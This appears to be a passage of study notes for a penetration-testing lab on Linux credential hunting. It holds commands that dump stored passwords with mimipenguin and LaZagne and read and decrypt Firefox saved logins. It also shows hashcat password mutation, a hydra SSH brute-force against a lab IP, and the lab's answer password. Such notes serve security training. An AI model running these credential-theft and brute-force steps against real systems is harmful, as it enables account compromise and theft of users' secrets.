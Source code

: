 sudo python3 mimipenguin.py

sudo bash mimipenguin.py

sudo python3 laZagne.py all

BROWSERS

ls -l .mozilla/firefox/ | grep default

cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .

python3.9 firefox\_decrypt.py

python3 laZagne.py browsers

#### Questions

**Examine the target and find out the password of the user Will. Then, submit the password as the answer.**

* HINT
  * Sometimes, we will not have any initial credentials available, and as the last step, we will need to bruteforce the credentials to available services to get access. From other hosts on the network, our colleagues were able to identify the user "Kira", who in most cases had SSH access to other systems with the password "LoveYou1". We have already provided a prepared list of passwords in the "Resources" section for simplicity's purpose.
* LoveYou1
*   Mutate the PW to obtain correct SSH login of Kira user



    * nano password.list (insert LoveYou1)
    * hashcat --force password.list -r custom.rule --stdout | sort -u > mutated.list
    * hydra -l kira -P mutated.list ssh://10.129.115.79 -t 64

    <figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

    \-
* SSH to kira
  * ssh kira@10.129.115.79
    * PW: L0vey0u1!
*   BASH history
